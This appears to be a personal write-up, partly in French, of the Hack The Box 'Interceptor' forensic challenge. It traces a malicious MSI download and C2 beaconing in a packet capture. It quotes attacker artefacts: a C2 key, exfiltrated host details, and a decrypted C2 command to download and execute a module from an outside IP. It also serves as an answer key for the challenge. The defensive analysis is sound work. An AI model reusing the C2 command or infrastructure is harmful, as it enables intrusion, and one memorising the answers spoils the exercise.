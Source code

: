 

# Interceptor


A recent anomaly has been detected in our network traffic, suggesting a potential breach. Our team suspects that an unauthorized entity has infiltrated our systems and accessed confidential company data. Your mission is to unravel this mystery, understand the breach, and determine the extent of the compromised data.


What IP address did the original suspicious traffic come from?


```
12604	83.776137	10.4.17.101	85.239.53.219	HTTP/JSON	224	POST /api/gateway HTTP/1.1 , JavaScript Object Notation (application/json)
```


The attacker downloaded a suspicious file. What is the HTTP method used to retrieve the properties of this file?

```
10945	62.577273	10.4.17.101	87.249.49.206	HTTP	216	PROPFIND /share HTTP/1.1 
```

It appears that this file is malware. What is its filename?

```
10999	64.741361	10.4.17.101	87.249.49.206	HTTP	233	GET /share/avp.msi HTTP/1.1 
```


What is the SSDEEP hash of the malware as reported by VirusTotal?

https://www.virustotal.com/gui/file/dcae57ec4b69236146f744c143c42cc8bdac9da6e991904e6dbf67ec1179286a/details

According to the NeikiAnalytics community comment on VirusTotal, to which family does the malware belong?

https://www.virustotal.com/gui/file/dcae57ec4b69236146f744c143c42cc8bdac9da6e991904e6dbf67ec1179286a/community

What is the creation time of the malware?


```bash
─tximista at zaworudo in ~ 25-09-19 - 23:28:31
╰─○ exiftool /home/tximista/.exegol/workspaces/ctf/avp.msi 
ExifTool Version Number         : 13.30
File Name                       : avp.msi
Directory                       : /home/tximista/.exegol/workspaces/ctf
File Size                       : 1428 kB
File Modification Date/Time     : 2025:09:19 23:24:24+02:00
File Access Date/Time           : 2025:09:19 23:25:11+02:00
File Inode Change Date/Time     : 2025:09:19 23:24:24+02:00
File Permissions                : -rw-r-----
File Type                       : FPX
File Type Extension             : fpx
MIME Type                       : image/vnd.fpx
Last Printed                    : 2009:12:11 11:47:44
Create Date                     : 2009:12:11 11:47:44
Modify Date                     : 2020:09:18 14:06:51
```

What is the domain name that the malware is trying to connect with?

12569	72.486283	10.4.17.1	10.4.17.101	DNS	134	Standard query response 0x81f3 A api.ipify.org A 104.26.13.205 A 104.26.12.205 A 172.67.74.152


What is the IP address that the attacker has consistently used for communication?

85.239.53.219


```bash
─tximista at zaworudo in ~/.exegol/workspaces/ctf 25-09-20 - 0:00:22
╰─○ 7z l avp.msi   

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=fr_FR.UTF-8 Threads:8 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 1427968 bytes (1395 KiB)

Listing archive: avp.msi

--
Path = avp.msi
Type = Compound
Physical Size = 1427968
Extension = msi
Cluster Size = 512
Sector Size = 64
----
Path = disk1.cab
Size = 612281
Packed Size = 612352
--
Path = disk1.cab
Type = Cab
Physical Size = 612281
Method = MSZip
Blocks = 1
Volumes = 1
Volume Index = 0
ID = 1234

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-04-16 10:10:56 ....A       978944               forcedelctl.dll
------------------- ----- ------------ ------------  ------------------------
2024-04-16 10:10:56             978944      1427968  1 files
```
forcedelctl.dll est probablement l'agent c2

What program is used to execute the malware?

msiexec.exe ==> par déduction et vu sur VT

What is the hostname of the compromised machine?/What is the key that was used in the attack?/What is the os_version of the compromised machine?/What is the owner name of the compromised machine?

En clair dans les requetes http ou un string sur le pcap
```

{"key": "WkZPxBoH6CA3Ok4iI", "id": "b98c911c-e29c-396e-2990-a7441af79546"}POST /api/b98c911c-e29c-396e-2990-a7441af79546/tasks HTTP/1.1

{"version":"v1.4.0","ip":"173.66.46.97","domain":"WORKGROUP","hostname":"DESKTOP-FWQ3U4C","arch":"x86","os_version":"Windows 6.3.9600","cur_user":"User","owner":"Nevada"}"% fK
```



After decrypting the communication from the malware, what command is revealed to be sent to the C2 server?

On trouve  dans le pcap un appel vers le C2, le malware envoi un beacon recoit une clef et un job en base64 puis déchiffre une commande a executer
![][Screenshot_20250920_222400.png]

```bash

[Sep 20, 2025 - 22:27:26 (CEST)] exegol-ctf /workspace # cat tasks    
{"id": "576ba7b6-077c-45fb-94b4-10fd156e93c3", "job": "B//jOYkMjUR2wj+L  
/9U9WafJi7K/GMIoeILXOeXYfdGUMV8eNqoLdrQlZ35neKaqiGJ4Vijv4WuInBYFg1nnW9s  
Y0sdq0imYHI1jW+skjZIgz3ICgNSxOkxRTpwzCA=="}#

(venv) ╭─tximista at zaworudo in ~/Bidouille/Code 25-09-20 - 22:42:05
╰─(venv) ○ ./interceptor.py 
{"command": "exe", "args": ["http://85.239.53.219/download?id=Nevada&module=2&filename=None"]}


```




#HTB #sherlock #rc4 #base64 #pcap #web #msi #malware 